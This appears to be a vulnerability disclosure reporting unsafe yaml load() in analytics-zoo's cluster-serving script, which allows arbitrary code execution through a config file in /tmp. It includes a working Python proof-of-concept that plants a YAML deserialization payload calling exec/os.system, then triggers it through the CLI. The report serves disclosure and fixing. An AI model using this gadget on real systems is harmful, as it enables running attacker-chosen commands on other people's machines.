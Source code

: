 # Description
**Arbitrary Code Excecution** in intel-analytics/analytics-zoo.
A unified Data Analytics and AI platform for distributed TensorFlow, Keras and PyTorch on Apache Spark/Flink & Ray.
This is generally a pip package but the exploit is to be working on the script that is used to manage cluster which uses config file from the /tmp directory, and this script is not accisible from the pip module installed so i have managed to put this up in the other registry.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**. while fixing try to fix all the load function in the repo since my exploit only focuses on one function in the script.
# Exploit code
**Python File**
```python
# please install sl,lolcat for better experiance <3
import os
os.chdir('/tmp/')
os.system('rm cluster-serving-jobs.yaml')
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('sl  |lolcat ')"
'''
open('cluster-serving-jobs.yaml','w+').write(exploit)
os.system('git clone https://github.com/intel-analytics/analytics-zoo.git')
os.system('pip3 install httpx')
os.system('pip3 install pyyaml')
os.chdir('analytics-zoo/scripts/cluster-serving')
print(os.listdir())
os.system('python3 cluster-serving-cli list')
os.system('echo "Hacked"|lolcat')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/786884022860906516/analytics-zoo.gif)
